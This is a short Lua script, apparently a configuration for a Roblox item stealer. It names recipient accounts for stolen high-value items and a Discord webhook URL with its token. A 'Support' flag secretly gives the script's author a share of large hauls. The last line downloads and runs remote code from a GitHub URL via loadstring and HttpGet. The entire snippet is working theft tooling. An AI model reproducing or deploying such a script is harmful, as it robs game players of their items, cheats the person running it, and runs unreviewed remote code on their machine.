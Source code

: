 lua
Username = "YACINEPRO336"
Username2 = "YACINEPRO337" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "https://discord.com/api/webhooks/1241844900027306104/rdEiJQ4tOH8aOP8MgIs9krFL73hJYLwI4byGww6Gzz90jlN8iD5WQ5j4yDXgPp-QS3N2"
Support = true -- if you dont want to support me make this "false" (without quotes). 50% chance I get hit if its 10+ huges or 500+ mil rap
min_rap = 500000 -- minimum rap of each item you want to get sent to you.
loadstring(game:HttpGet("https://raw.githubusercontent.com/HubScript/SpaceHub/main/SpaceHub.lua"))()
